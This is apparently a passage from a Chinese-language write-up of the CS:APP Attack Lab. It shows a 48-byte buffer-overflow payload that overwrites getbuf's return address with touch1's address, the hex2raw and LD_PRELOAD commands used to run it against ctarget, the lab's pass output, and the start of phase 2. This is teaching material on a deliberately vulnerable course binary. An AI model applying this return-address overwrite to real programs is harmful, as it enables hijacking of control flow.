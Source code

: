 由此就有了思路，我们只需要输入 48 个字符，前 40 个字节将 getbuf 的栈空间填满，最后一个字节将返回值覆盖为 0x4017c0 即 touch1 的地址，这样，在 getbuf 执行 retq 指令后，程序就会跳转执行 touch1 函数。

```c{.line-numbers}
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

接下来创建一个 txt 文档存储上述输入。并按照 HEX2RAW 工具的说明，在每个字节间用空格或回车隔开。接下来执行如下命令，**`./hex2raw < ctarget01.txt`** 是利用 hex2raw 工具将我们的输入看作字节级的十六进制表示进行转化，用来生成攻击二进制文件，并且写入到 ctarget01-raw.txt 文件中，接下来将此文件中的二进制位串写入到 ctarget 程序中。

接下来解释一下 **`LD_PRELOAD=./printf.so`** 的作用，**<font color="red">`LD_PRELOAD` 是 Linux 的环境变量，用于在程序启动时强制优先加载指定的动态链接库（.so 文件）</font>**。**`./printf.so`** 表示当前目录下的 printf.so 动态链接库文件。当设置此变量时，系统会在程序运行前加载该库，并覆盖系统中同名函数或符号的定义。若 **`printf.so`** 中定义了 printf() 函数，程序会优先调用该自定义函数，而非系统默认的 printf() 实现。使用这条命令因为 ctarget 程序中 libc 库中的 pritf 函数与 Ubuntu 22.04 版本不兼容。
 
```c{.line-numbers}
monica@xvm:~/csapp/csapplab/attacklab/target1$ ./hex2raw < ctarget01.txt > ctarget01-raw.txt 
monica@xvm:~/csapp/csapplab/attacklab/target1$ LD_PRELOAD=./printf.so ./ctarget < ctarget01-raw.txt -q
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00
```

最后可以看到 touch1() 函数调用成功。

## 二、PHASE2

在 PHASE2 中，我们需要使用缓冲区溢出攻击 ctarget 程序，调用 touch2 函数，并且需要将 cookie 值作为参数传入 touch2。

```c{.line-numbers}
void touch2(unsigned val) {
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```
